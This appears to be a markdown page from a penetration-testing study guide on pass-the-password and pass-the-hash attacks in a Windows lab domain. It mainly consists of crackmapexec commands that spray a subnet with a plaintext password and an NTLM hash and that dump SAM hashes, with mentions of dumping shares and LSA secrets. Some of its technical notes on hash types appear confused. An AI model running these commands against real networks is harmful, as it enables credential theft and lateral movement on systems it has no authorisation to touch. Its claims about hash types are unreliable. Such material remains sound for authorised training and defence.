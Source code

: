 # **Pass the Password / Pass the Hash**

## **What are this?**

If we crack a password and/or can dump the SAM hashes with **secretsdump.py** or **ntlmrelayx.py**, we can leverage both for lateral movement in networks



## **Attack 1  : Crackmapexec**

```powershell
# show help message
$ crackmapexec --help

# Pass the password attack
$ sudo crackmapexec smb 192.168.0.0/24 -u fcastle -d MARVEL.local -p Password1

# Pass the hash attack
$ sudo crackmapexec smb 192.168.0.0/24 -u administrator -H aad3b435b51404eeaad3b435b51404ee:7facdc498ed1680c4fd1448319a8c04f --local-auth
```

### **Example**

![](https://i.imgur.com/BEJeQ9g.jpg)


**Note :** We cannot use NTLMv2 hashes for the pass the hash attack [refer to LLMNR poisoning for this type of hashes] , Only use NTLMv1 hashes [refer to SMB relay attacks for this type of hashes]. Also make sure to run your `crackmapexec` twice with the same syntax as this may lead to different results.



## **Dumping Hashes**

```powershell
# dump SAM hashes of local admin and users

$ sudo crackmapexec smb 192.168.0.0/24 -u administrator -H aad3b435b51404eeaad3b435b51404ee:7facdc498ed1680c4fd1448319a8c04f --local-auth --sam
```



### **Example**


![](https://i.imgur.com/BPORRyU.png)

We can also dump `shares` and `lsa` (The LSA secrets are **a set of encrypted keys that are stored in the registry**, They could be used or cracked again) passwords of our targets


**_Dumping shares :_**


![](https://i.imgur.com/xPXK6Qs.png)



**_Dumping lsa's :_**

